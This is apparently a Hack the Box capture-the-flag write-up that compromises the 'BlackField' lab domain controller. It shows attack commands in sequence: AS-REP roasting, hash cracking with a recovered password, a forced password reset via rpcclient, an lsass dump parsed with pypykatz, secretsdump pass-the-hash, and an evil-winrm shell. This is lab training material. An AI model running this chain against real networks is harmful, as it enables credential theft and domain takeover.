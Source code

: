 # Hack the Box - BlackField


```CSS
Machine IP: 10.10.10.192
```

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.192 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
593/tcp  open  http-rpc-epmap
3268/tcp open  globalcatLDAP
5985/tcp open  wsman
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.41 seconds
```

```CSS
▶ nmap -Pn -sC -sV -p 53,88,135,389,445,593,3268,5985 10.10.10.192 -oN services.nmap

Nmap scan report for 10.10.10.192
Host is up (0.18s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-05-20 13:56:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 6h59m34s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-05-20T13:57:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.98 seconds
```

---

## SMB Enumeration
  - Anonymous and Guest Enumeration 
```
▶ smbmap -H 10.10.10.192 -u guest
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee481776-6d35-4c5a-a235-099ce99ed714)

SMB shares reveal two non-default shares named `forensic` and `profiles$`. The share `forensic` is not accessible however read-only access is allowed on the `profiles$` share. 

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9a1f88cc-ce6c-4ee0-85b8-97579f3e5553)

---

## Kerberos
  - Kerberos Pre-Authentication Attack (ASREPRoast)
  - Craft a list of users to spray the users
```CSS
▶ smbclient -N \\\\10.10.10.192\\profiles$ -c ls | awk '{ print $1 }' | tee users.txt
```
```CSS
▶ impacket-GetNPUsers blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/99b7e598-7179-457a-84ab-5ff137a3ed46)

---

## Hash Crack (krb5asrep)
```CSS
▶ john krb.hash --format=krb5asrep
```

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/1bd2c405-2c01-48c3-aebe-e3b1b97e88c2)

```CSS
#00^BlackKnight  ($krb5asrep$23$support@BLACKFIELD.LOCAL)
```

---

## BloodHound
```CSS
▶ bloodhound-python --username support --password '#00^BlackKnight' --domain blackfield.local --nameserver 10.10.10.192 --collectionmethod all
```
```CSS
▶ neo4j console
```
```CSS
▶ bloodhound --no-sandbox
```
Upload files generated by `bloodhound.py` to BloodHound console.
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/67572013-e505-4437-8921-284955cd2e5c)

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f5d0f98a-36f2-4e82-a700-49d3bdead4ee)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/315fb65d-46bb-4905-96c8-7d6e7eddd6ab)

---

## Force Change Password
```CSS
▶ rpcclient 10.10.10.192 -U 'support'
Password for [WORKGROUP\support]:
rpcclient $> setuserinfo2 audit2020 23 Password123
rpcclient $> exit
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4b07f036-6c38-40f5-8b0c-581a8047a5f5)
```CSS
▶ crackmapexec smb 10.10.10.192 -u audit2020 -p Password123
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/94bac7e7-3c7c-4326-8916-293ee0af15d5)

---

```CSS
▶ smbclient \\\\10.10.10.192\\forensic -U "audit2020"
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3cd76e5d-a326-45c4-8d63-fd9a2346b84f)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/9db2bdf4-995e-46ce-b788-2e8b03bc70cc)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/b748c159-0191-42b0-963f-9d4adc71de12)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/6b970a7a-aa71-4612-8fe8-9f64f037600f)

---

## Dump File (.DMP)
```CSS
▶ pypykatz lsa minidump lsass.DMP
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e6eed677-d497-4777-be99-34b63bea7628)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/cf9d1c3c-c4e2-44e4-a89d-aad2385e9fbe)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/fd9da16d-294e-48e1-818b-3085dd8954d2)

---

## Dump Hashes with DCSync
```CSS
▶ impacket-secretsdump blackfield.local/administrator@10.10.10.192 -hashes :7f1e4ff8c6a8e6b6fcae2d9c0572cd62 -dc-ip 10.10.10.192
```
```CSS
▶ impacket-secretsdump blackfield.local/'dc01$'@10.10.10.192 -hashes :b624dc83a27cc29da11d9bf25efea796 -dc-ip 10.10.10.192

```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/abfc08ef-f1ce-4810-b158-7d8a89c8f53a)
```
▶ crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee122af8-bdde-4e8d-bbb4-7c3208280597)

---

```CSS
▶ evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i 10.10.10.192
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2e8bd716-d569-42e5-82e1-cd04f05588ab)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d94aabbe-9752-4f60-a6cb-86b3a0f6cd18)
